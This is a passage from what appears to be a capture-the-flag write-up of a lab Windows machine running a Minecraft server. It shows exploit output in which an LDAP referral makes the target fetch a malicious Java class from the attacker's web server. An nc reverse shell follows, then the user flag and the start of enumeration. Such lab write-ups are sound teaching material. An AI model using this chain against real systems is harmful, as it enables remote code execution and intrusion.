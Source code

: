 #### Exploit Success

Running the updated exploit, I’ll send the payload to Minecraft. This time
there’s only on hit at the exploit:

    
    
    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    Listening on 0.0.0.0:1389
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:48:09] "GET /Exploit.class HTTP/1.1" 200 -
    

And a shell at `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.249 49717
    Microsoft Windows [Version 10.0.17763.5329]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    c:\users\svc_minecraft\server> whoami
    crafty\svc_minecraft
    

I like to use `rlwrap` to get things similar to the shell upgrade on Linux.

The user flag is on the desktop:

    
    
    c:\Users\svc_minecraft\Desktop> type user.txt
    65b4f5a4************************
    

I’ll also switch to PowerShell:

    
    
    c:\Users\svc_minecraft\Desktop> powershell
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Users\svc_minecraft\Desktop> 
    

## Shell as Administrator

### Enumeration

#### Website

The website code lives in `C:\inetpub`. The web root is `wwwroot`, which has
three files as well as directories:

    
    
    PS C:\inetpub\wwwroot> ls
    
        Directory: C:\inetpub\wwwroot
    
